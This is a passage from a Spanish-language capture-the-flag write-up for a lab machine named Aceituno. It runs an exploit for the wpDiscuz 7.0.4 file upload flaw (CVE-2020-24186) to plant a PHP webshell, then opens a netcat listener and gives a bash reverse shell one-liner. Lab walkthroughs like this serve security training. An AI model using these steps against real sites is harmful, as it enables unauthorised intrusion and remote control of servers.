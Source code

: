 Usémoslo como lo indica:
```bash
python 49967.py -u http://192.168.1.220 -p /2024/04/23/hola-mundo/
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[97783] | code:[200]
[!] Got wmuSecurity value: 50d62fd2c8
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: miszhlqxzlgxwtf

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://aceituno.thl/wp-content/uploads/2025/04/miszhlqxzlgxwtf-1743533506.9218.php&quot;
```
Recuerda que no funciona la ejecución remota desde el Exploit en nuestra terminal, pero la webshell sí fue cargada.

Podemos visitarla y probar un comando:

<p align="center">
<img src="/assets/images/THL-writeup-aceituno/Captura6.png">
</p>

Excelente, funciona.

Ahora, podemos mandarnos una **Reverse Shell** para obtener una sesión.

Abre un listener con **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Utiliza la siguiente **Reverse Shell** en la **webshell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-aceituno/Captura7.png">
</p>
